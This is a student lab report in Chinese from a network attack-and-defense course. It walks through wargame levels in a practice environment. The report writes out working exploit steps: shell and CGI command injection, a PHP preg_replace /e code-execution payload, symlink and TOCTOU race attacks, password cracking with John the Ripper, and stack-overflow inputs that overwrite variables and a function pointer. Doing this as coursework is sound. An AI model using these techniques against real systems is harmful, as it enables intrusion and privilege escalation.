







[TOC]

# <center>《网络攻防实战》实验报告</center>

### **第3次实验：wargame**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10-2019.11

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

###  level02
attack-env-again

修改USER变量, export USER='`/bin/getflag01`'


### level03
attack-crontab

在writable.d下创建文件test，内容为`/bin/getflag03>/home/flag03/a.txt`
程序会不定期调用该test文件
在a.txt中查看flag


### level04
get-token

用ln -s /home/flag04/token /home/level04/test1创建链接
执行flag04 获得密码
登录flag04用户获取flag


### level05
steal-key

ls -a查看隐藏文件，将文件拷贝到home里，解压缩，ssh登录


### level06
crack-password

在passwd中找到flag06密码，用john破解，得到密码ftc，远程登录
vi /etc/passwd
john hash001(复制密码到该文件中)


### level07
cgi-vuln

在/home/flag07下找到index.cgi文件，并根据thpptd得知文件在8888端口
通过浏览器访问8888下的index.cgi文件
查询文件，得知需要Host参数，于是在后面加上?Host=127.0.0.1%26/bin/getflag07(其中%26位&的url加密格式)


### level08

analyze-packets

在flag08下找到数据包文件，先拷贝到level08下，再远程传送到本地，利用wireshark分析数据包
找到password后面的明文字符为：
backdoor+【del】+【del】+【del】+00R+m8+【del】+ate+【enter】
整合后，密码为`backd00Rmate`
登录后获得flag



### level09

attack-php

在flag09下查看PHP文件，注意到php正则匹配中有\e模式，preg_replace的第二个参数会被当做代码执行，因此在level09下创建临时文件test，内容为：
`[email ${${system(getflag09)}}]`
成功获得flag



### level10

race-conf-vuln

TOCTOU（time of check，time of use）问题
程序先根据uid判断是否有读取权限，如果有，才能继续执行，破解方法是先打开一个当前用户有权限的程序，再对打开的内容进行更改；程序输出在18888端口

窗口1：
监听18888端口
`nc -k -l 127.0.0.1 18888`

窗口2：
新建一个窗口，在/tmp目录下创建token文件，作为有权限打开的假token文件；创建一个可执行文件xx，执行循环：
```
while true
do
    ln -sf /tmp/token /tmp/token10
    ln /sf /home/flag10/token /tmp/token10
done
```
执行命令
`chmod +x xx;./xx`

窗口3：
新建一个窗口，在/tmp目录下创建一个可执行文件yy，执行循环：
```
while true
do
    nice -n 19 /home/flag10/flag10 /tmp/token10 127.0.0.1
done
```

在窗口一中获得flag10的token：`b3c5-6d82-7sfc`
登录，获取flag


### level20

stack-overflow-change-variable

观察程序，gets参数存在漏洞，通过输入覆盖modified值，通过反汇编可知，modified变量值储存在ebp-0xc，即0xbffff62c中，通过输入覆盖至此，即可获得flag
输入：
`./flag20`
`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1111`

遇到问题:
在gdb调试过程中修改寄存器或标志位后，程序拒绝访问，因此只能通过输入覆盖


### level21

stack-overflow-change-variable-to-the-right-value

观察程序，关键为比较modified和0x56575859，通过输入命令行参数覆盖modified，modified地址为ebp-0xc，即0xbffff60c，覆盖时每四个字节为小头字节序，因此0x56575859换序为YXWV，
输入（没有换行）：
`./flag21 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPYXWV`


### level22

 stack-overflow-modify-variable

观察程序，需要设置环境变量NJUCS，同时覆盖modified的值为0x0d0a0d0a，通过定位，更改NJUCS的值，其中涉及不可见字符，用echo形式返回值，输入命令（没有换行）：

```
export NJUCS=`echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x0a\x0d\x0a\x0d'`
```

再执行程序`./flag22`，得到flag



### level23

stack-overflow-overwrite-function-pointer

观察程序，需要将fp的地址指向win，通过输入gets覆盖到fp的值，定位为ebp-0xc，即0xbffff62c，同时，fp地址包含不可见字符，通过管道重定向，输入为（没有换行）：
` echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x6b\x84\x04\x08'|./flag23`
成功得到flag


## 三、 实验结果

参见实验内容

## 四、 实验中遇到的问题及解决方案


## 五、 组员分工

分别完成了一部分题目。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）

1个月